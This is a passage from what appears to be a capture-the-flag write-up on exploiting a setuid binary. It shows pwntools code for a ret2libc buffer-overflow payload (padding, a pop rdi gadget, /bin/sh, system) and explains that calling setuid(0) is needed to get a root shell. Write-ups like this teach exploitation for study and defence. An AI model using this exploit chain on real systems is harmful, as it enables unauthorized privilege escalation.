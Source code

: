 ```python
log.success("Address of libc base: " + hex(libc_base))
log.success("Address of system in libc: " + hex(system))
log.success("Address of binsh string in libc: " + hex(binsh))

payload = "B"*136
payload += p64(pop_rdi_gadget)
payload += p64(binsh)
payload += p64(system)

sh.sendline(payload)
sh.interactive()
```

Sweet! Executing this should give us a nice root shell!.....

![alt text](imgs/fail.PNG "Nope!")

......or not.

## One final obstacle

What went wrong? Our leaked addresses made sense, so why did we get the EOF error?
This issue took me a while to solve. The answer, however, was simple:
* We weren't actually executing as the root user

Turns out, setuid binaries only give the capability of running something as the root user, but doesn't gurantee it. If the binary doesn't set its effective user ID, then the special permissions are dropped.

However, there is a function in libc called setuid(), which takes in one parameter, an integer. If that integer is 0, then after the setuid() function returns, program execution resumes in the context of the user who owns the binary. In this case, since the root user owns this binary, calling setuid(0) will cause the rest of the program to be executed as root.
